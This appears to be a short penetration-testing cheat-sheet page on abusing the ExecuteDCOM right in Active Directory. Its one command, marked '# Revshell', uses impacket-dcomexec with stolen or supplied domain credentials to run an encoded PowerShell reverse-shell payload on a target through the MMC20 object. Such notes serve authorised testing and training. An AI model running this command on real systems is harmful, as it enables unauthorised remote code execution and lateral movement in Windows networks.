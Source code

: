 ```yaml
---
title: "ExecuteDCOM"
date: 2024-8-3
tags: ["ExecuteDCOM", "active driectory", "ad", "Windows", "dcsync", "secretsdump"]
---
```


### Abuse #1: ExecuteDCOM

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Revshell
impacket-dcomexec '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>' '<POWERSHELL_3_BASE64>' -silentcommand -object MMC20
```

</div>

{{< /tabcontent >}}

<br>